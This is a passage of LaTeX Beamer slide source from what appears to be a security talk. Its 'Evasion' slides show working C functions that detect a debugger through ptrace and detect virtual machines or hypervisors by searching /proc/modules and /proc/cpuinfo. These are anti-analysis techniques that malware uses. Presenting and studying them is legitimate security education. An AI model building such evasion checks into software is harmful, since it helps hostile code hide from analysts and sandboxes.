    
\includegraphics[width=14cm,keepaspectratio]{server_room_fire}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Evasion}
  \framesubtitle{The Debugger}
  \begin{center}
    
\includegraphics[width=14cm,keepaspectratio]{debugger}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Debugger}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_ptrace(){
          if (ptrace(PTRACE_TRACEME, 0, 1, 0) == -1){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Virtual Machine 0}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_kernel_module(char *kernel_module){
          if (strlen(kernel_module) + 16 > RE_BASH_COMMAND_MAX_LEN){
            fprintf(stderr, "[x] kernel module name length exceeds limitations\n");
            return false;
          }
          char command[RE_BASH_COMMAND_MAX_LEN];
          sprintf(command, "grep -Po '^%s\x20' /proc/modules", kernel_module);
          FILE *fd = popen(command, "r");
          if (fd == NULL){
            fprintf(stderr, "[x] failed to read kernel module list");
            return false;
          }
          char buff[RE_KERNEL_MODULE_NAME_MAX_SIZE];
          memset(buff, 0, sizeof(buff));
          fread(buff, 1, strlen(kernel_module), fd);
          if (strncmp(buff, kernel_module, strlen(kernel_module)) == 0){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Virtual Machine 1}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_kernel_modules(){
          if (re_kernel_module("virtio") == true){
            return true;
          } else if (re_kernel_module("vboxvideo") == true){
            return true;
          } else if (re_kernel_module("vboxguest") == true){
            return true;
          } else if (re_kernel_module("vboxsf") == true){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Evasion}
  \framesubtitle{The Hypervisor}
  \begin{center}
    \begin{tcolorbox}[title=re.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool re_hypervisor(){
          char hypervisor[] = "hypervisor";
          char command[] = "grep -m 1 -Po 'hypervisor' /proc/cpuinfo";
          char buff[RE_KERNEL_MODULE_NAME_MAX_SIZE];
          FILE *fd = popen(command, "r");
          if (fd == NULL){
            fprintf(stderr, "[x] failed to read cpuinfo");
            return false;
          }
          memset(buff, 0, sizeof(buff));
          fread(buff, 1, strlen(hypervisor), fd);
          if (strncmp(buff, hypervisor, strlen(hypervisor)) == 0){
            return true;
          } else{
            return false;
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Stop, Demo Time!}
  \begin{center}
    
\includegraphics[width=7cm,keepaspectratio]{demo_meme}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Questions}
  \begin{center}
    
\includegraphics[width=7cm,keepaspectratio]{questions}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Questions}
  \begin{center}
    
\includegraphics[width=12cm,keepaspectratio]{thank_you}
  \end{center}
\end{frame}

\end{document}